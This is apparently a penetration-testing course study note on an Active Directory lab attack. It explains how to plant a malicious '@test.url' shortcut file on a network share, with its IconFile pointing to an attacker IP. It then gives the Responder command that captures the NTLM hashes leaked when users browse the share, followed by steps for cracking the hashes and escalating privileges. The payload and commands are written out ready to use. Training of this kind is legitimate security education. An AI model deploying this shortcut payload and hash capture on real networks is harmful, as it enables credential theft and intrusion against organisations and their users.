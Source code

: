 
If we have compromised a particular user, and that user has any sort of share access, file share access.

- we can utilize this to capture more hashes via responder
- Go back and try to crack this hashes
- Then get a user with more advanced privileges

This attack requires a compromised user account or an open file share, where you can put a file in the share.

- The content of the file contains what is shown below, whereby we will replace `x.x.x.x` with our attacker IP

```html
[InternetShortcut]
URL=http://google.com
WorkingDirectory=%username%
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

- We can then save the file as `"@test.url"` and upload it to a share (**File explorer >> Network >> HYDRA-DC >> hackme**) on your THEPUNISHER vm (This should be done in the windows system)
- Make sure **HTTP** and **SMB** is turned ON in responder. (default responder settings)

![](https://i.imgur.com/N694Qbl.png)


- Then start up responder with the command `sudo responder -I wlan0 -dwv` 
- Navigate back to that share where the file was uploaded on your THEPUNISHER vm and go back to your terminal where responder is opened, you should see the hashes dumped


![](https://i.imgur.com/LlR1nxJ.jpg)


Navigate to https://academy.tcm-sec.com/courses/1152300/lectures/33637401 to know better


